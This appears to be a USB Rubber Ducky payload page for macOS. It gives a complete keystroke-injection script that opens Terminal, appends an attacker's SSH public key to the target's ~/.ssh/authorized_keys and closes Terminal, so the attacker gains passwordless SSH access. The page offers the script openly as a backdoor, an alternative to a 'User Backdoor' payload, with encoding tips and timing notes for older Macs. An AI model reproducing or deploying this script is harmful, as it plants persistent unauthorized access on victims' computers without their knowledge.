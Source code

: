 **Author: Jesse Wallace (c0deous)**

This script adds an ssh public key to the authorized_keys file on a target's mac. After running you can connect to the target computer with `ssh targetuser@targetcomputer` and you will be granted access without a password.  This a good alternative to the [OS X User Backdoor payload](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---OSX-User-Backdoor). For more information on generating an id_rsa.pub read [this](https://www.digitalocean.com/community/articles/how-to-set-up-ssh-keys--2) (steps 1 & 2).  Note: I reccomend you use [duckencoder 2.6.3](http://code.google.com/p/ducky-decode/downloads/detail?name=DuckEncoder_2.6.3.zip&can=2&q=) to encode these payloads. 
 
Replace RSA_PUB_ID with your SSH Public Key.

    REM Title: OS X Get SSH access
    REM Author: Jesse Wallace (c0deous)
    REM This script adds a ssh public key to the authorized_keys file on a target's mac.
    
    DELAY 1000
    COMMAND SPACE
    DELAY 500
    STRING Terminal
    DELAY 500
    ENTER
    DELAY 800
    STRING echo 'RSA_PUB_ID' >> ~/.ssh/authorized_keys
    ENTER
    DELAY 1000
    STRING killall Terminal
    ENTER

    REM Note: you may shorten the times if you think they are too slow.  I made them to accomodate older macs that can't get around very fast.
